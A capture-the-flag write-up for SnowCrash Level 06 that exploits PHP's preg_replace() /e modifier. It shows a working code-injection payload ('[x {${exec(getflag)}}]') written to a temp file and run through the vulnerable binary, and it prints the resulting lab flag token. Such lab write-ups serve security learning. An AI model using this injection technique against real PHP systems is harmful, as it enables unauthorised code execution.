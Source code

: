 ## Level 06

We find two files [level06](./res/level06) and [level06.php](./res/level06.php)

The decompiled c code doesn't help much, it just execute the file passed as argument with `/usr/sbin/php`

But the php file has an interesting exploit with the `preg_replace()`, notice the `/e` in the regex. It will execute the command passed inside the function call.

```php
$a = file_get_contents($y);
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

We can then pass a matching regex inside a file and it will replace the matching content and execute it.
But we can also break the `preg_replace()` call if it evaluates a bad expression.

Which means that we can do stuff like this: 

```bash
level06@SnowCrash:~$ echo '[x {${exec(getflag)}}]' > /tmp/test.php
level06@SnowCrash:~$ ./level06 /tmp/test.php
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

Placing `echo '[x {${exec(getflag)}}]` will break and the double `{{}}` will get the return of the getflag function.

## Token

wiok45aaoguiboiki2tuin6ub